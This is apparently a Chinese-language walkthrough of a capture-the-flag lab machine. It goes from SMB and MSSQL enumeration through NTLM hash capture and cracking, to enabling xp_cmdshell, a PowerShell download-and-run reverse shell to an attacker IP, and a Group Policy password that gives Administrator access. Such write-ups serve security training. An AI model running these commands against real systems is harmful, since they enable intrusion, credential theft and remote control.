

# README

## 信息收集

### nmap

```shell
sudo nmap -p-  --min-rate 10000 10.10.10.125
Password:
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-26 14:36 CST
Warning: 10.10.10.125 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.125
Host is up (0.33s latency).
Not shown: 65320 closed tcp ports (reset), 201 filtered tcp ports (no-response)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
1433/tcp  open  ms-sql-s
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 20.07 seconds

```

```shell
sudo nmap -p 135,139,445,1433,5985 -sC -sV 10.10.10.125
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-26 14:37 CST
Nmap scan report for 10.10.10.125
Host is up (0.33s latency).

PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ssl-date: 2023-09-26T06:37:58+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-09-26T06:34:51
|_Not valid after:  2053-09-26T06:34:51
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   311:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2023-09-26T06:37:40
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.47 seconds

```

基础信息：

```
Microsoft SQL Server 2017 14.00.1000.00; RTM

```


smb上面可以下载一个xlsm文件：

```shell
smbclient //10.10.10.125/Reports -U ""
get "Currency Volume Report.xlsm"
```

但是打开后什么都没有，放到windows里面打开会提示是否要开启宏，查一下：

**Excel 宏**是一个记录和回放工具，它可以简单地记录您的 Excel 步骤，并且宏会根据您的需要多次回放。VBA 宏可以自动执行重复性任务，从而节省时间。它是一段在 Excel 环境中运行的编程代码，但您无需成为编码器即可编写宏。

查看一下：



```shell

' macro to pull data for client volume reports
'
' further testing required

Private Sub Connect()

Dim conn As ADODB.Connection
Dim rs As ADODB.Recordset

Set conn = New ADODB.Connection
conn.ConnectionString = "Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;Uid=reporting;Pwd=PcwTWTHRwryjc$c6"
conn.ConnectionTimeout = 10
conn.Open

If conn.State = adStateOpen Then

  ' MsgBox "connection successful"
 
  'Set rs = conn.Execute("SELECT * @@version;")
  Set rs = conn.Execute("SELECT * FROM volume;")
  Sheets(1).Range("A1").CopyFromRecordset rs
  rs.Close

End If

End Sub

```

有个sql server的用户名密码：reporting:PcwTWTHRwryjc$c6

## NTLM relay

```shell
sudo python2 Responder.py -i 10.10.14.14 -wrfv

EXEC xp_dirtree '\\10.10.14.14\share', 1, 1
```

```shell
hashcat -m 5600 hash.txt /Users/feng/many-ctf/rockyou.txt --force
```

得到：

```shell
MSSQL-SVC::QUERIER:30658b8aa31d36fb:76966720190732f1553f1c4de2cf86e5:0101000000000000c0653150de09d201db9fc0b8361e0b71000000000200080053004d004200330001001e00570049004e002d00500052004800340039003200520051004100460056000400140053004d00420033002e006c006f00630061006c0003003400570049004e002d00500052004800340039003200520051004100460056002e0053004d00420033002e006c006f00630061006c000500140053004d00420033002e006c006f00630061006c0007000800c0653150de09d201060004000200000008003000300000000000000000000000003000008a3c5d328cbc00b50ac2952bfd27acdab67395e71276be8d5f5c0dfee6e0d03a0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003400000000000000000000000000:corporate568
```


evil-winrm登不上去，继续登mssql。

查一下是管理员，用xp_cmdshell失败，开启再使用：

```shell
SQL (QUERIER\mssql-svc  dbo@master)> EXEC sp_configure 'show advanced options', 1
RECONFIGURE
[*] INFO(QUERIER): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (QUERIER\mssql-svc  dbo@master)> RECONFIGURE
SQL (QUERIER\mssql-svc  dbo@master)> EXEC sp_configure 'xp_cmdshell',1
[*] INFO(QUERIER): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (QUERIER\mssql-svc  dbo@master)> RECONFIGURE
SQL (QUERIER\mssql-svc  dbo@master)> exec xp_cmdshell "whoami"
output
-----------------
querier\mssql-svc

NULL
```


反弹个shell：

```shell
exec xp_cmdshell "powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.14:39554/powershell-reverse-shell-39502.ps1')"
```


## PowerUp.ps1

```shell
iwr -uri http://10.10.14.14:39554//PowerUp.ps1 -outfile PowerUp.ps1

PSReverseShell# import-module .\PowerUp.ps1
PSReverseShell# Invoke-AllChecks


Privilege   : SeImpersonatePrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 2436
ProcessId   : 4048
Name        : 4048
Check       : Process Token Privileges

ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True
Name          : UsoSvc
Check         : Modifiable Services

ModifiablePath    : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
IdentityReference : QUERIER\mssql-svc
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

UnattendPath : C:\Windows\Panther\Unattend.xml
Name         : C:\Windows\Panther\Unattend.xml
Check        : Unattended Install Files

Changed   : {2019-01-28 23:12:48}
UserNames : {Administrator}
NewName   : [BLANK]
Passwords : {MyUnclesAreMarioAndLuigi!!1!}
File      : C:\ProgramData\Microsoft\Group
            Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
Check     : Cached GPP Files

```

发现存在一个Groups.xml的密码泄漏，以前是还要拿脚本解，这里直接解出来密码了。


```shell
evil-winrm -i 10.10.10.125 -u Administrator -p 'MyUnclesAreMarioAndLuigi!!1!'

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
querier\administrator
```


还可以利用               UsoSvc，但是我没有利用成功不知道为什么。

